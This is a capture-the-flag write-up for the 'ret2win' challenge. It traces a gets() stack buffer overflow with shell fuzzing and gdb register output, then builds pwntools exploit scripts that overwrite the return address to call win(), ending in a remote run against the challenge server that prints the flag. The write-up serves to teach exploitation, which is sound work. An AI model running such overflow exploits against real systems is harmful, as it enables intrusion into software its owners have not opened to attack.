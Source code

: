 # ret2win

## Disassembly

The main function:
```C
main(void) {
	vuln();
	puts("Nope :(");
	return 0;
}
```
So what is in the `vuln` function?
```C
void vuln(void)
{
	char input[112];

	printf("Can you overflow this?: ");
	gets(input);
	return;
}
```
This feels obvious, we have to overflow the string input, so we can clobber the instruction pointer and get our own assembly in.</br>
And what do we have to do? We have to return to the `win()` function, which in short reads from a `flag.txt` file. We can try and do this with `pwntools`!

## Proof of Concept

First I tried calling:
```bash
python3 -c "print('A'*112)" | ./ret2basic 
```
But this doesn't overflow, so we can try upping it up. I'm doing this to find the offset where we get a segmentation fault.
```bash
python3 -c "print('A'*120)" | ./ret2basic 
Can you overflow this?: free(): invalid pointer
Aborted

python3 -c "print('A'*135)" | ./ret2basic 
Can you overflow this?: Segmentation fault
```
So 120 gives us an invalid free and at 135 a segfault. Is this really the offset though?
```bash
python3 -c "print('A'*125)" | ./ret2basic 
Can you overflow this?: Segmentation fault
```
And checking `dmesg`:
```
Code: Unable to access opcode bytes at RIP 0x4141414117.
```
`0x41` is A. So this clearly clobbers the Instruction pointer! Now, can we get the RIP pointer to be 0?</br>
</br>
After some experimenting with `gdb` and `dmesg`, I got the following in gdb:
```
(gdb) 
Can you overflow this?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
(gdb) info registers
rax            0x7fffffffdfc0      140737488347072
rbx            0x0                 0
rcx            0x7ffff7fa9980      140737353783680
rdx            0x0                 0
rsi            0x7ffff7fa9a03      140737353783811
rdi            0x7ffff7fac4d0      140737353794768
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffe040      0x7fffffffe040
r8             0x7fffffffdfc0      140737488347072
r9             0x0                 0
r10            0xfffffffffffff23f  -3521
r11            0x246               582
r12            0x401100            4198656
r13            0x7fffffffe120      140737488347424
r14            0x0                 0
r15            0x0                 0
rip            0x400041            0x400041     <----------
```
The Instruction pointer includes our `0x41`. This was 121 characters, so 120 characters is probably our sweet spot.

## Exploitation

Testing that our offset of 120 is correct:
```py
#!/usr/bin/env python3

from pwn import *

offset = 120

elf = ELF('./ret2basic')
p = elf.process()

print(p.recvuntil(": "))

payload = [
	b'A'*offset,
	b'BB'
] 

payload = b''.join(payload)

p.sendline(payload)
p.interactive()
```
So I ran it and got a segfault, next dmesg output!
```
[ 6605.507489] ret2basic[3356]: segfault at 4242 ip 0000000000004242 sp 00007ffec4e5da80 error 14 in ret2basic[400000+1000]
```
`segfault at 4242` is our two B's. Excellent! Now just to get the address of the flag function. Or `win()`.
```py
#!/usr/bin/env python3

from pwn import *

offset = 120

elf = ELF('./ret2basic')
p = elf.process()

print(p.recvuntil(": "))

payload = [
	b'A'*offset,
	p64(elf.symbols['win'])
] 

payload = b''.join(payload)

p.sendline(payload)
p.interactive()
```
Yes! This works locally, now just configure it to work on a remote connection:
```py
#!/usr/bin/env python3

from pwn import *

offset = 120

elf = ELF('./ret2basic')
p = remote('challenge.nahamcon.com',30413)

print(p.recvuntil(": "))

payload = [
	b'A'*offset,
	p64(elf.symbols['win'])
] 

payload = b''.join(payload)

p.sendline(payload)
p.interactive()
```
And what do we get?
```bash
./exploit.py 
[*] '/root/CTFs/Nahamcon-2021/ret2win/ret2basic'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 30413: Done
b'Can you overflow this?: '
[*] Switching to interactive mode
Here's your flag.
flag{d07f3219a8715e9339f31cfbe09d6502}
```
Awesome!
